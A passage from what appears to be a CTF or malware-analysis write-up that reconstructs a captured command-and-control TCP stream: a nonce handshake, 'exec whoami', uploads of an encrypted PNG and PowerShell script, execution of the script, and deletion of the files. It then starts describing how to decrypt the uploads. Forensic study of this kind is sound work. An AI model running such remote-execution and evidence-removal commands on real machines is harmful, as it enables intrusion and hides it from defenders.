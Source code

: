 And the server responds with `ACK_N\n` (ack nonce). Then client starts sending commands
(e.g., `exec whoami`). To better see this, we select the `Follow TCP Stream` option:
```
et!,.M.4....G|.jp.;<3.-h..\.&.
.ACK_K
..........H...|`hI..^.I.\.....8.ACK_N
exec whoami
desktop-1cmr3ql\user

exec mkdir C:\Users\user\AmongRust

upload C:\Users\user\AmongRust\wallpaper.PNG 122218
ACK_UPLOAD
..........X.&....   N.......W.....u.u+.H.....Z]
..4&..U..e....j .R..,.5..|..
..."m..;.N1xD...EX..s.;.|z

[.....TRUNCATED FOR BREVITY .....]

.gS...+......!.I9.!.....C.'...-.....
.6>...)o.J.x
..]10!W.k8....G.l... .:....G,yW..&.#..AA,...Z_..[.t...hx..{..Gd......@.]...........
..t.;An..?ii..)....Mre.....L7!.......!....p^K..3......RmG......'...
..\.J...RC ...]a2.O..U.(..........L.
.l..$.k.a..S7).....H..|.jhMr......\.....LwH...F....W.......2......A.i...7...hG.hU.;...
*.=GP.....@..O.[^ |:N.s.@<Ro.a...........8[A....e..u.b..........;..~ACK_UPLOAD_FIN
upload C:\Users\user\AmongRust\wallpaper.ps1 708
ACK_UPLOAD
m1.|.............`$......Cp...6JK.Ux.H..=.../...Q..!l..
.\.d}e.7.=Q.......-...P..."."..}...F..pTo.)......&r....asf9;.?Y`.:..J..g.....+...a.|.:....@
~3H......->2..'&...>|Yx.....l"..KD..'m.9<:.dQ...X.Rl....?....{U..RY.q}.q...Y
(...e.f........~.....y.........C\8....L'.:n*>...a...j.SL.ch...74.hD.B&.6....c.\./L....K..k......PE.-+....!.0J...T.....7.j.F.P\AS.V.-d.;...(.Pah.
........w...j?V..5..N.....8....]7.......).6>9p.."..).....*.7....m........$.=
....l.>..
..#...O..B9/....,..:BZ..i.p......J.T.M...f.K.p?.a......Qr.o.........A7..v`..7.~.Q}...<5...t..=
.c.....i.#...v. s.?...m].h!.)|./"........*./.^....I_(.[...H....S.T  .7.IfzZ.%...#yf...:dj.....s..E.......R.m............n...=qD%...F.7.:f.....=....+gm....0.NACK_UPLOAD_FIN
exec powershell C:\Users\user\AmongRust\wallpaper.ps1

exec del C:\Users\user\AmongRust\wallpaper.ps1 /q

exec del C:\Users\user\AmongRust\wallpaper.PNG /q

exec rmdir C:\Users\user\AmongRust

exit
```

#### Decrypting the Files

Since, we have the `key`, the `nonce`, the encrypted files (`wallpaper.PNG` and `wallpaper.ps1`)
and the commands:
```
upload C:\Users\user\AmongRust\wallpaper.ps1 708
upload C:\Users\user\AmongRust\wallpaper.PNG 122218
```
